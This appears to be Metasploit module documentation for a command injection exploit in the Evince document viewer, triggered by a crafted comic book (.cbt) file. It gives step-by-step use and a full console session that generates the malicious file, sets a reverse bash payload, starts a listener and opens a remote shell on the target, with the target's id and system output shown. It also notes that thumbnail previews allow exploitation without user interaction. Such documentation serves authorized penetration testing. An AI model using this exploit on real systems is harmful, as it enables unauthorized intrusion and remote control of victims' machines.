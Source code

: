 ## Description

  This module exploits a command injection vulnerability in Evince
  before version 3.24.1 when opening comic book `.cbt` files.

  Some file manager software, such as Nautilus and Atril, may allow
  automatic exploitation without user interaction due to thumbnailer
  preview functionality.

  Note that limited space is available for the payload (<256 bytes).
  Reverse Bash and Reverse Netcat payloads should be sufficiently small.


## Vulnerable Application

  [Evince](https://wiki.gnome.org/Apps/Evince) is a document viewer
  for multiple document formats.

  This module has been tested successfully on evince versions:

  * 3.4.0-3.1 + nautilus 3.4.2-1+build1 on Kali 1.0.6
  * 3.18.2-1ubuntu4.3 + atril 1.12.2-1ubuntu0.3 on Ubuntu 16.04


## Verification Steps

  1. ```use exploit/multi/fileformat/evince_cbt_cmd_injection```
  2. ```set PAYLOAD <PAYLOAD>```
  3. ```run```
  4. The module should generate the malicious `msf.cbt` file
  5. ```handler -p <PAYLOAD> -H <LHOST> -P <LPORT>```
  6. Copy `msf.cbt` to target host and open with Evince
  7. You should receive a new session


## Options

  **FILENAME**

  The cbt document file name (default: `msf.cbt`)


## Scenarios

  ```
  msf5 > use exploit/multi/fileformat/evince_cbt_cmd_injection 
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > run

  [*] Writing file: msf.cbt (1078272 bytes) ...
  [+] msf.cbt stored at /root/.msf4/local/msf.cbt
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > mv /root/.msf4/local/msf.cbt /var/www
  [*] exec: mv /root/.msf4/local/msf.cbt /var/www

  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > use exploit/multi/handler 
  msf5 exploit(multi/handler) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf5 exploit(multi/handler) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Command shell session 1 opened (172.16.191.188:4444 -> 172.16.191.160:39362) at 2019-02-03 00:16:59 -0500

  id
  uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
  uname -a
  Linux ubuntu-16-04-x64 4.4.0-140-generic #166-Ubuntu SMP Wed Nov 14 20:09:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  ```


## Manual Cleanup

To prevent re-exploitation from a thumbnailer process:

  ```
  /usr/bin/killall evince-thumbnailer
  /usr/bin/killall atril-thumbnailer
  ```

